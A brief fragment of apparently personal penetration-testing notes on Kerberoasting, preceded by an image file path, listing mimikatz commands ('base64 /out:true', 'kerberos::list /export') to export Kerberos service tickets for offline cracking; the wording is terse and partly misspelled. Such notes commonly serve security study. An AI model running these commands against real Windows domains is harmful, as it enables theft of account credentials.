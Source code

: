 retriveing from spn/powershell kerbroasting
```
./mimikatz
```
set up mimi
```cmd-session
base64 /out:true
```

Load tickets
```cmd-session
kerberos::list /export 
```